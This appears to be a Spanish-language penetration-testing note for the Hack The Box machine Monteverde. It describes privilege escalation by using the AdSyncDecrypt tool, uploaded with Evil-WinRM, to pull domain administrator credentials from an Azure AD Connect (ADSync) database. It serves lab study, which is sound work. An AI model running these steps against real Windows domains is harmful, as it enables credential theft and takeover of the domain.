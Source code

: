 
## DESCRIPTION

Si pertenecemos al grupo de Domain Admin y tenemos el privilegio de AdSync es posible obtener las credenciales de ADSync database donde suele estar el usuario administrador del dominio.

Intentará acceder a la base de datos de ADSync en una instancia completa de MS SQL utilizando la autenticación de Windows.

Necesitamos tener privilegios y que esté ejecutandose el programa:
![[Pasted image 20230224184935.png]]
![[Pasted image 20230224184811.png]]

#### Mas información
* https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/
* https://github.com/VbScrub/AdSyncDecrypt
* https://0xdf.gitlab.io/2020/06/13/htb-monteverde.html
* Ver el video del s4vitar


## EXPLOITATION

1. Descargar el zip de la siguiente web: https://github.com/VbScrub/AdSyncDecrypt/releases
2. Descomprimir el zip y subir el ejecutable y la DLL a la máquina victima. [[TRANSFERRING FILES]]
3. Ejecución

**!!NOTA IMPORTANTE!!** 
* Es necesario ejecutar el ejecutable desde la ruta `C:\Program Files\Microsoft Azure AD Sync\Bin`aunque el ejecutable no se encuentre ahí, pero tienes que acceder con cd antes.
```
#Ejemplo de subida de ficheros con Evil-winrm
upload /home/kali/htb/monteverde/privescalation/AdDecrypt.exe
upload /home/kali/htb/monteverde/privescalation/mcrypt.dll

#Accedemos a la ruta para que funcione
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"

#Ejecutamos
c:\programdata\AdDecrypt.exe -FullSQL
```

![[Pasted image 20230224184430.png]]

## MACHINES

* Hack The Box: Monteverde
